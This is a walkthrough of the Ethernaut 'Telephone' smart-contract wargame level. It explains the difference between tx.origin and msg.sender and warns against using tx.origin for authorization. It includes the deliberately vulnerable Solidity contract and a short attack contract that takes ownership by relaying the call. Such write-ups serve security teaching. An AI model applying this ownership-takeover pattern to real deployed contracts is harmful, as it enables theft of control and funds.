 ```yaml
---
description: tx.origin and msg.sender
---
```


# 4 - Telephone

Ethernaut Level4: [Telephone](https://ethernaut.openzeppelin.com/level/0x131c3249e115491E83De375171767Af07906eA36)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Walkthroughs

<details>

<summary>Key to solve this problem 🔑</summary>

`tx.origin` is the very first initiator's address of the transaction while\
`msg.sender` is the caller address that directly called the contract.

</details>

### What you should know before

* Difference between `tx.origin` and `msg.sender`\
  ``-> see [here](https://www.youtube.com/watch?v=mk4wDlVB4ro)

```solidity
contract AttackTelephone {
    Telephone telephone;

    constructor(Telephone _instanceAddr) {
        telephone = _instanceAddr;
    }

    function attack() external {
        telephone.changeOwner(tx.origin);
    }
}
```

In this problem, `tx.origin` will be your wallet address and `msg.sender` will be the address of `AttackTelephone` contract.

You just need to call `attack()` function.

Done! 😎

## Key Takeaway

* In most cases, it is not recommended to use `tx.origin` in terms of **security**.
